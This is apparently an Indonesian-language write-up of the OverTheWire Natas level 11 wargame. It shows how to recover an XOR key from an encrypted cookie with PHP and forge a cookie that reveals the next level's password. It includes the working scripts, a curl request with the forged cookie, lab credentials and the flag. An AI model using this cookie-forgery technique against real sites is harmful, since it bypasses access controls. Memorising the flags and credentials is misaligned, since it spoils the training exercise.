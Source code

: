```yaml
---
layout: level
level: 11
previous: ./level 10.html
next: ./level 12.html
---
```


# soal
Username: natas11 \
URL:      http://natas11.natas.labs.overthewire.org

# solve
- use cred natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
- ketika saya login saya melihat sebuah php yang dimana berisi set background color namun untuk datanya di simpan di cookie data
  ![alt text](docs/images/image-19.png)
  - yang dimana ketika saya melihat lebih jelas lagi terdapat sebuah function save data, dan terdapat beberapa encode
    ![alt text](docs/images/image-20.png)
- disini karena kita sudah tau bahwa data cookie akan di baca olehh python dan di decrypt dengan urutan
  - base64, xor, json
- maka saya akan mencoba mendecrypt untuk mendapatkan key nya terlebih dahulu
  - karena xor jika kita mengetahui 2 value pasti bisa mendapatkan key nya
    ```bash
    key?
    cipher = key ^ plain text
    key = plain text ^ cipher
    ```

## get_key
- keynya bisa ambill di data ya dan jangan lupa decode menggunakan url decode terlebih dahulu
  ```php
  <?php

  print json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
  print "\n";

  $cookie=base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=");

  print $cookie;
  print "\n";

  function xor_encrypted($in) {
      $cipher = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
      $text = $in;
      $key = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $key .= $text[$i] ^ $cipher[$i % strlen($cipher)];
      }

      return $key;
  }

  print xor_encrypted($cookie);
  print "\n";
  ?>
  ```
- run
  ```bash
  php get_key.php
  # 3'7  uUG*8MIf+;fmMF"1	"1M
  # eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe

  # bisa dilihat bahwa perulangan xor nya yaitu eDWo
  # jadi kita sudah mengetahui semua variablenya
  # key    = eDWo
  # cipher = eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe
  # plain  = {"showpassword":"no","bgcolor":"#ffffff"}
  ```

## encyrpt.php
- karena kita sudah tau key nya kita bisa melakukan encypt dengan key = eDWo
  ```php
  <?php
  $data = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'eDWo';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  // print xor_encrypt($data);
  print base64_encode(xor_encrypt(json_encode($data)));
  print "\n";

  ?>
  ```
- run
  ```bash
  php encyrpt.php 
  HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5
  ```
- dan ketika saya ubah cookienya pada webnya saya berhasil mendapatkan flagnya
  ![alt text](docs/images/image-21.png)

- gunakan curl jika ingin mempercepat
  ```bash
  curl "http://natas11.natas.labs.overthewire.org/?bgcolor=%23ffffff" \
  -u natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk \
  --cookie "data=HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5"

  # The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB<br>
  ```

# flag
yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB